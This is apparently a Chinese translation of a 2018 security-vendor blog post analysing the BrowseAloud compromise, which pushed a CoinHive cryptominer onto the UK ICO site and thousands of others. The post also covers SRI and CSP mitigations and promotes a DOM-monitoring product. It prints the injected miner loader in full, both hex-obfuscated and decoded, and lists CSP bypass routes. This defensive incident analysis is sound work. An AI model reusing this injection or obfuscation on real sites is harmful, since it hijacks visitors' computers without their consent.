

# ICO 案例研究|通过实时网页监控应对密码劫持

> 原文：<https://medium.com/hackernoon/ico-case-study-tackling-cryptojacking-with-real-time-webpage-monitoring-ac1ed5049c22>


本周末，英国信息专员办公室网站 ICO([https://ico.org.uk/](https://ico.org.uk/))被发现向其用户提供 CoinHive 密码挖掘器。CoinHive crypto miner 是一个 JavaScript，可以安装在任何挖掘加密的网站上(例如 Monero — XMR)。

显然，这不是 ICO 的本意，ICO 是一个帮助保护英国用户隐私的机构。它是对 ICO 网站中使用的第三方提供商 TextHelp 的妥协的结果。在另一位安全专家伊恩·川普的提示后，这一行为被安全负责人、io 和 report-uri.com 创始人[斯科特·赫尔姆](https://scotthelme.co.uk/protect-site-from-cryptojacking-csp-sri/)标记出来。

# 袭击

ICO 的网站当时正在加载这个文件:`https://www.browsealoud.com/plus/scripts/ba.js`，问题就从这里开始了。通过像这样直接从第三方网站加载 JavaScript，他们基本上为注入攻击打开了大门。这与是否信任第三方提供商无关，因为他们可能会在不知不觉中受到威胁，从而使攻击者能够将其用作注射工具。

这是添加到 ba.js 脚本中的内容:

```
window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x77\x72\x69\x74\x65"]("\x3c\x73\x63\x72\x69\x70\x74 \x74\x79\x70\x65\x3d\x27\x74\x65\x78\x74\x2f\x6a\x61\x76\x61\x73\x63\x72\x69\x70\x74\x27 \x73\x72\x63\x3d\x27\x68\x74\x74\x70\x73\x3a\x2f\x2f\x63\x6f\x69\x6e\x68\x69\x76\x65\x2e\x63\x6f\x6d\x2f\x6c\x69\x62\x2f\x63\x6f\x69\x6e\x68\x69\x76\x65\x2e\x6d\x69\x6e\x2e\x6a\x73\x3f\x72\x6e\x64\x3d"+window["\x4d\x61\x74\x68"]["\x72\x61\x6e\x64\x6f\x6d"]()+"\x27\x3e\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e");window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x77\x72\x69\x74\x65"]('\x3c\x73\x63\x72\x69\x70\x74\x3e \x69\x66 \x28\x6e\x61\x76\x69\x67\x61\x74\x6f\x72\x2e\x68\x61\x72\x64\x77\x61\x72\x65\x43\x6f\x6e\x63\x75\x72\x72\x65\x6e\x63\x79 \x3e \x31\x29\x7b \x76\x61\x72 \x63\x70\x75\x43\x6f\x6e\x66\x69\x67 \x3d \x7b\x74\x68\x72\x65\x61\x64\x73\x3a \x4d\x61\x74\x68\x2e\x72\x6f\x75\x6e\x64\x28\x6e\x61\x76\x69\x67\x61\x74\x6f\x72\x2e\x68\x61\x72\x64\x77\x61\x72\x65\x43\x6f\x6e\x63\x75\x72\x72\x65\x6e\x63\x79\x2f\x33\x29\x2c\x74\x68\x72\x6f\x74\x74\x6c\x65\x3a\x30\x2e\x36\x7d\x7d \x65\x6c\x73\x65 \x7b \x76\x61\x72 \x63\x70\x75\x43\x6f\x6e\x66\x69\x67 \x3d \x7b\x74\x68\x72\x65\x61\x64\x73\x3a \x38\x2c\x74\x68\x72\x6f\x74\x74\x6c\x65\x3a\x30\x2e\x36\x7d\x7d \x76\x61\x72 \x6d\x69\x6e\x65\x72 \x3d \x6e\x65\x77 \x43\x6f\x69\x6e\x48\x69\x76\x65\x2e\x41\x6e\x6f\x6e\x79\x6d\x6f\x75\x73\x28\'\x31\x47\x64\x51\x47\x70\x59\x31\x70\x69\x76\x72\x47\x6c\x56\x48\x53\x70\x35\x50\x32\x49\x49\x72\x39\x63\x79\x54\x7a\x7a\x58\x71\'\x2c \x63\x70\x75\x43\x6f\x6e\x66\x69\x67\x29\x3b\x6d\x69\x6e\x65\x72\x2e\x73\x74\x61\x72\x74\x28\x29\x3b\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e');
```

该代码有一个非常简单的混淆，只使用下标符号将`window.document.write`转换为`window[‘document’][‘write’]`——随后使用字符串编码来隐藏所有敏感的字符串，如“document”和“write ”,以及对 CoinHive 的 URL 和代码的引用。

这是一个相反的版本:

```
window["document"]["write"]("<script type='text/javascript' src='https://coinhive.com/lib/coinhive.min.js?rnd=" + window["Math"]["random"]() + "'></script>"); window["document"]["write"]('<script> if (navigator.hardwareConcurrency > 1){ var cpuConfig = {threads: Math.round(navigator.hardwareConcurrency/3),throttle:0.6}} else { var cpuConfig = {threads: 8,throttle:0.6}} var miner = new CoinHive.Anonymous(\'1GdQGpY1pivrGlVHSp5P2IIr9cyTzzXq\', cpuConfig);miner.start();</script>');
```

原来 ICO 并不是唯一受影响的网站。[超过 4000 个网站](https://publicwww.com/websites/browsealoud.com%2Fplus%2Fscripts%2Fba.js/)报告直接从 browsealoud.com 网站加载被感染的脚本。

这与 RiskIQ 声称的针对 jQuery CDN 的所谓攻击没有太大区别，risk IQ 声称，在注入被移除之前，该攻击是向直接从 CDN 加载 jQuery 的每个网站的每个用户提供 RIG exploit kit。这对攻击者来说太有吸引力了，他们可以通过攻击动态加载的依赖关系来大规模危害用户。

这些攻击的焦点似乎正在转向密码劫持。最近很多网站被入侵的例子。jQuery 的博客就是[的一个例子](https://www.hackread.com/jquery-blog-hacked-coinhives-dns-compromised/)。对 TextHelp 的攻击只是最近的一起。

# 使用 CSP + SRI 进行缓解

正如 Scott Helme 所指出的，减轻这种情况的一种方法是向加载外部脚本的脚本元素添加子资源完整性(SRI)属性。他甚至建议使用 CSP 的`require-sri-for`指令来补充 SRI 标签的使用。

这是一个很好的建议，但是如果依赖脚本需要定期更新的话，效果就不太好了，事实似乎就是这样。一个很好的折衷办法是使用 CSP 来限制加载脚本的域。

但这并不完美。这可能会给注入任意脚本留下空间，这取决于哪些域被列入白名单。Michele Spagnuolo 和 Lukas weicselbaum[在这里](https://www.youtube.com/watch?v=uf12a-0AluI)精彩地报道了这一点。但基本上，有很多方法可以做到这一点。几个例子:

1.  JSONP 回调端点
2.  使用 AngularJS 和其他 JS 框架绕过-有记录的 CSP 绕过可能允许攻击者在页面中注入任意 JS
3.  在白名单域上使用开放重定向，因为路径在重定向后会被 CSP 忽略

由此得出的结论是，基于白名单的 CSP 确实很难实现，熟练的攻击者可能会找到绕过它的方法。一个更好的解决方案是使用 CSP nonces，这是一个 base64 编码的序列，在每次加载页面时必须是唯一的，并且必须设置为内联和外部脚本的属性。这样，注入的脚本无法预测有效的 nonce，加载将会失败。然而，在这种攻击中，坏人可以轻松地注入整个 coinhive.js 文件，这将通过 CSP(但不是 SRI)。

无论如何，您仍然需要使用 SRI 来确保不加载无效的脚本，但是如果 JS lib 需要频繁更新，这也不是一个好的选择。您总是可以自己托管文件，但是在动态生成 JavaScript 的情况下，这并不总是可行的(无论如何，这是一种糟糕的做法)。

关于 CSP，需要注意的是，[任何基于头部的网络安全控制都可以被浏览器扩展](https://www.youtube.com/watch?v=vWaH4Mu1EF8&t=2193s)解除。

# 使用网页实时监控进行缓解

如果没有可靠的方法来确保恶意代码或标记被注入到您的网站中，那么下一个最好的事情就是了解它并实时做出反应。这正是 Jscrambler 的[网页完整性](https://jscrambler.com/webpage-integrity)技术能够做到的。它监视网页 DOM 中的任何注入，并向后端的 webhook 报告。它检测任何变化，包括 0 天的威胁，而不仅仅是已知的注射。

在某些情况下，它还可以当场解除注射。起初，这可能不是一个永久的删除，但它非常有用，因为它不仅防止执行影响会话，还告诉您注入了什么。然后就有可能弄清楚这种注射最初是如何插入的，并采取措施永久地修复这种情况。

它类似于 CSP 报告接口，但它根本不使用 CSP。有一些重叠，但是当你使用两者时，你得到最好的保护。网页完整性方法的优点是，与 CSP 相反，如果脚本改变并开始将脚本标签注入 DOM，可以立即警告用户，从而允许实时反应。这在 SRI 不是一个选项的情况下(例如，脚本需要实时更新)是绝对相关的。

恶意修改的 ba.js 不再从 browsealoud.com 提供，但我们的团队复制了攻击，强制受感染的 [ba.js](https://pastebin.com/AHyehgS7) 版本(而不是当前版本)进入 ICO 的网站。同时，我们在 ICO 的网站中手动注入网页完整性嵌入代理来监控网页 DOM。目标是捕捉`document.write`在 ICO 的网页 DOM 上登陆的输出并减轻攻击。

我们不仅能够捕捉到注入的`<script>`加载 CoinHive 的脚本，还能捕捉到内联脚本初始化 lib 并启动挖掘。您可以在仪表板中看到这一点(见下图)，同时您会在后端收到一个通知，您可以据此配置安全策略。



Figure 1 — Webpage Integrity Dashboard showing one of the injections

以下视频是 ICO 密码劫持攻击的概念验证，以及如何通过实时网页监控检测到该攻击。

# 结论

随着加密货币的日益普及(和价值)，攻击者开始转向窃取我们计算机的周期作为获取现金的一种方式。去年左右的新闻里到处都是密码劫持。
此次 TextHelp 事件再次证明了这对攻击者有多么大的吸引力，尤其是如果他们能够破坏第三方依赖关系，并一击命中多个网站。我们肯定会在未来看到更多这样的攻击。

CSP 有助于限制外部 JavaScript 在网站中的加载，但并不意味着保证它期望加载的脚本的完整性。SRI 可以在这方面有所作为，但当脚本经常改变时，就很难维持了。

Jscrambler 的[网页完整性](https://jscrambler.com/webpage-integrity)是一种新方法，它实时监控网页的 DOM 修改、JS 中毒攻击、JS 事件劫持和 XSS，并向后端报告，允许 webapp 立即做出反应。有了它，我们能够证明我们可以从 TextHelp 的受损脚本中捕获注入，并能够通知 ICO(或任何其他可能被攻击的[网站](https://publicwww.com/websites/browsealoud.com%2Fplus%2Fscripts%2Fba.js/))。

最后，这里有一个“假设”练习:在这些攻击中，攻击者只关心使用终端用户的 CPU 来挖掘密码。但是，在网页中执行任意 JavaScript 的能力将允许攻击者收集用户访问的任何敏感信息或完全修改 DOM，并欺骗用户放弃其凭据或执行一些不符合其最佳利益的操作。客户端注射是一个需要尽全力解决的问题。

*原载于 2018 年 2 月 15 日*[*blog.jscrambler.com*](https://blog.jscrambler.com/ico-case-study-tackling-cryptojacking-with-real-time-webpage-monitoring/)*。*